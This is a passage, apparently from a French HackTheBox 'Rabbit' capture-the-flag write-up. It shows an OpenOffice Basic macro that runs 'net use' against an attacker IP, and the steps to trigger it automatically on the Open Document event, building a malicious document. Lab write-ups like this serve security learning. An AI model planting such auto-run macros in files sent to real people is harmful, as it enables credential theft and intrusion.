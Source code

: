 ![HackTheBox Rabbit ODT Macro creation](/assets/img/htb/rabbit_new_macro.jpg)

On place alors une macro avec un nom quelconque, par exemple :  

```plain
Sub RogerRabbit
    Shell("net use x: \\10.10.15.90")
End Sub
```

Il faut ensuite ferme la fenêtre d'édition des Macros et aller dans *Tools > Customize* puis :  

1. Sélectionner l’événement *Open Document*
2. Cliquer sur Macro
3. Choisir notre module
4. Et la macro
5. S'assurer que c'est enregistré dans le fichier

![Rabbit HackTheBox assign macro to open document event](/assets/img/htb/rabbit_assign_load_macro.png)
